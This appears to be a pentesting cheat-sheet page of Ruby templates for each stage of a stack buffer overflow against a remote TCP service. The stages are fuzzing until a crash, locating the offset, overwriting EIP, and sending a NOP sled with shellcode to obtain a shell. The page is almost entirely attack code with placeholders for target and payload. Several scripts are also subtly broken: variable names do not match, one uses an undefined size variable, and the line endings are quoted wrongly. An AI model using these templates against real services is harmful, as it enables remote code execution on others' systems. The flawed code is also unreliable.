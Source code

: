 
### Ruby Templates for BOF

There are different stages of BOF and we'll have different scripts for each stage:

### Spiking & Fuzzing
```Ruby
require 'socket'

buff = "A" * 100
RHOST = #IP address of the target machine, example: "10.10.10.0"
RPORT = #Port number of the target machine, example: 21

begin
    while true
        s = TCPSocket.open(RHOST, RPORT)
        s.puts buff + '\r\n'
        s.close
        sleep 1
        buffSize = buff.size
        buff += "A" * 100
    end
rescue Interrupt
    puts "Debugger crashed at #{buffSize} bytes"
end
```
### Finding Offset
```Ruby
require 'socket'

buffer = #Based on at what bytes you get to EIP, generate your pattern and insert it here, example "AAAA"
RHOST = #IP address of the target machine, example: "10.10.10.0"
RPORT = #Port number of the target machine, example: 21

begin
    s = TCPSocket.open(RHOST, RPORT)
    s.puts buff + '\r\n'
    s.close
rescue Interrupt
    puts "Debugger crashed at #{buffSize} bytes"
end
```    
### Overwriting EIP
```Ruby
buffer = #Based on the offset bytes, place your pattern here 
buffer += "B" * 4
RHOST = #IP address of the target machine, example: "10.10.10.0"
RPORT = #Port number of the target machine, example: 21

require 'socket'

TCPSocket.open(RHOST,RPORT){ |s| s.puts buff + '\r\n'}
```
### Owning EIP
```Ruby
buffer = "A" * (Offset Value)
buffer += #Address of EIP
RHOST = #IP address of the target machine, example: "10.10.10.0"
RPORT = #Port number of the target machine, example: 21

require 'socket'

TCPSocket.open(RHOST,RPORT){ |s| s.puts buff + '\r\n'}
```
### Getting a Shell
```Ruby
shellcode = #Place your shellcode here
buff = "A" * (Offset Value)
buff += #Address of EIP 
buff += "\x90" * (8/10/12/16/20...) 
buff += shellcode
RHOST = #IP address of the target machine, example: "10.10.10.0"
RPORT = #Port number of the target machine, example: 21

require 'socket'

TCPSocket.open(RHOST,RPORT){ |s| s.puts buff + '\r\n'}
```
[<= Go Back to Main Menu](index.md)
[<= Go Back to BOF Menu](bufferoverflows.md)
